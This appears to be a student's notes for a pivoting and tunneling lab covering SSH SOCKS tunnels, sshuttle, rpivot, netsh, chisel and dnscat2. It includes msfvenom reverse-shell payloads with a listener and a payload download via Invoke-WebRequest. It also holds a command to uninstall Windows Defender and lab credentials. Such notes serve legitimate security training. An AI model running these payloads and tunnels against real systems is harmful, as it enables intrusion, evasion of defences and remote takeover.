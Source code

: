 # Pivoting, Tunneling, and Port Forwarding

# Dynamic Port Forwarding with SSH and SOCKS Tunneling

You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```bash

ifconfig

```

Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop. 

```bash

netstat -antp 

ssh -D 9050 ubuntu@10.129.194.203

proxychains nmap -v -Pn -sT 172.16.5.19 # 3389

sudo proxychains rdesktop 172.16.5.19 -u victor -p pass@123


```

# Meterpreter Tunneling & Port Forwarding

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.10.16.51 -f exe -o backupscript.exe LPORT=8080

 msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.51 -f elf -o backupjob LPORT=8080
    # send a file yo victim machine and run the program

 use exploit/multi/handler

 set lhost 0.0.0.0

 set lport 8080

 set payload linux/x64/meterpreter/reverse_tcp

 run

Invoke-WebRequest -Uri "http://172.16.5.15:8000/backupscript.exe" -OutFile "C:\Users\mlefay\Downloads\backupscript.exe"

meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23





```

# Socat Redirection with a Reverse Shell




# SSH Pivoting with Sshuttle

Try using sshuttle from Pwnbox to connect via RDP to the Windows target (172.16.5.19) with "victor:pass@123" on the internal network. Once completed type: "I tried sshuttle" as the answer.

```bash
# Th3$eTunne1$@rent8oring!
# AC@tinth3Tunnel

sudo sshuttle -r ubuntu@10.129.237.20 172.16.5.0/23 -v 

xfreerdp /v:172.16.5.19 /u:victor /p:pass@123


```

# Web Server Pivoting with Rpivot

```bash

sudo git clone https://github.com/klsecservices/rpivot.git

python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

scp -r rpivot ubuntu@10.129.2.180:/home/ubuntu/

python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

#

```

# Port Forwarding with Windows Netsh


```bash
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.19

netsh.exe interface portproxy show v4tov4

xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123


```


#  DNS Tunneling with Dnscat2

```bash
git clone https://github.com/iagox86/dnscat2.git

sudo ruby dnscat2.rb --dns host=10.10.16.51,port=53,domain=inlanefreight.local --no-cache

git clone https://github.com/lukebaggett/dnscat2-powershell.git

# set secret of dnscat2.rb output, on this commando 
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.16.51 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 

window -i 1

```


# SOCKS5 Tunneling with Chisel

Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer. 

```bash

git clone https://github.com/jpillora/chisel.git
cd chisel
go build

scp chisel ubuntu@10.129.202.64:~/

# Running the Chisel Server on the Pivot Host
./chisel server -v -p 1234 --socks5

# Connecting to the Chisel Server
./chisel client -v 10.129.202.64:1234 socks

#  located at /etc/proxychains.conf and add 1080 port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```


# Skill

```bash

# get id_rsa

sudo sshuttle -e 'ssh -i id_rsa' -r webadmin@10.129.171.56 172.16.5.0/23 -v



for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.029 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=2.24 ms


# find file with cred : mlefay:Plain Human work!

uninstall-Windowsfeature -Name Windows-Defender

# remote desktop
#172.16.6.25
#vfrank:Imply wet Unmasked!
#INLANEFREIGHT\vfrank

```
